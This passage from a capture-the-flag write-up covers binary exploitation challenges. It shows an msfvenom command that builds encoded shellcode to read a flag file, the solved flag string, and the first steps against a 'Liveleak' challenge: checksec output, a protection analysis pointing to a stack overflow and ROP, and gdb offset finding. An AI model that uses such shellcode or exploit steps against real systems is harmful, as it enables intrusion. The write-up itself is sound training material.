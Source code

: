 This is the exploit command:

```bash
msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -b '\x0f\x05\xcd\x80' -e x86/call4_dword_xor -o payload_xor.bin
```

Flag: **umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}**

## Liveleak (lkhwn.nzm)
## Description
> No desc
> 
> 34.133.69.112 port 10007

`chall`, `Dockerfile`, `ld-2.35.so `, `libc.so.6`

---

## Solution

First we analyze using `checksec` to see possible attacks.

```bash
$ checksec chall
[*] '/home/kali/Downloads/pwn/chall'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    No canary found
     NX:       NX enabled
     PIE:      No PIE (0x3ff000)
     RUNPATH:  b'.'
     SHSTK:    Enabled
     IBT:      Enabled
     Stripped: No
```

Then I got this output which means:

No canary ➔ Stack buffer overflow possible.

`NX` enabled ➔ Stack is non-executable (need `ROP`). 

No `PIE` ➔ Static addresses (`ROP` is easier).

```bash
$ gdb ./chall
```

Then, we need to find the buffer offset, using `gdb`.

```bash
(gdb) run <<< $(cyclic 500)
Starting program: /home/kali/Downloads/pwn/chall <<< $(cyclic 500)
warning: Expected absolute pathname for libpthread in the inferior, but got: ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
Enter your input:
```
